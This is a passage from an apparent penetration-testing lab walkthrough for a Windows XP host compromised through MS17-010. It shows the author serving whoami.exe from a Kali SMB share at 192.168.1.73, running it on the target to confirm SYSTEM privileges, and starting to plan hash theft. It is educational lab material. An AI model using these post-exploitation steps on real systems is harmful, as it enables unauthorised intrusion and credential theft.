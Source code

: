 PROCESSOR_LEVEL=6
PROCESSOR_REVISION=3c03
ProgramFiles=C:\Program Files
PROMPT=$P$G
SystemDrive=C:
SystemRoot=C:\WINDOWS
TEMP=C:\WINDOWS\TEMP
TMP=C:\WINDOWS\TEMP
USERPROFILE=C:\Documents and Settings\LocalService
windir=C:\WINDOWS
As above, set in Windows is similar to Linux’s env. There’s no USERDOMAIN or USERNAME to tell us if we are NT AUTHORITY / SYSTEM. As this thread explains this can be difficult. Fortunately kali by default has a whoami.exe Windows binary we can run, after transferring over.

root@Kali:~# locate whoami.exe
/usr/share/windows-binaries/whoami.exe
root@Kali:~# file /usr/share/windows-binaries/whoami.exe
/usr/share/windows-binaries/whoami.exe: PE32 executable (console) Intel 80386, for MS Windows
Now fire up Impacket’s smbserver.py to start up a SMB share so we can copy whoami.exe over to our target then run it.

root@Kali:~/PTP/2.5_Exploitation/Lab 4/WinXP_MS17-010# smbserver.py Lab "/root/PTP/2.5_Exploitation/Lab 4/WinXP_MS17-010"
Impacket v0.9.19-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

C:\>dir \\192.168.1.73\Lab
dir \\192.168.1.73\Lab
 Volume in drive \\192.168.1.73\Lab has no label.
 Volume Serial Number is ABCD-EFAA

 Directory of \\192.168.1.73\Lab

02/25/2019  09:10 PM    DIR          .
02/25/2019  01:00 AM    DIR          ..
02/24/2019  05:36 PM             4,227 Winxp_MS17-010_Kali.txt
02/25/2019  09:10 PM            66,560 whoami.exe
02/24/2019  05:55 PM           123,454 WinXP_MS17-010.zip
               3 File(s)        202,433 bytes
               2 Dir(s)  15,207,469,056 bytes free

C:\>copy \\192.168.1.73\Lab\whoami.exe . 
copy \\192.168.1.73\Lab\whoami.exe . 
        1 file(s) copied.
C:\>whoami.exe	
whoami.exe
NT AUTHORITY\SYSTEM
All right! At this point we are done as far as this host is concerned. But I wanted to do more. Since we are NT AUTHORITY, we could pillage the hashes from the machine. As this explains they are stored in
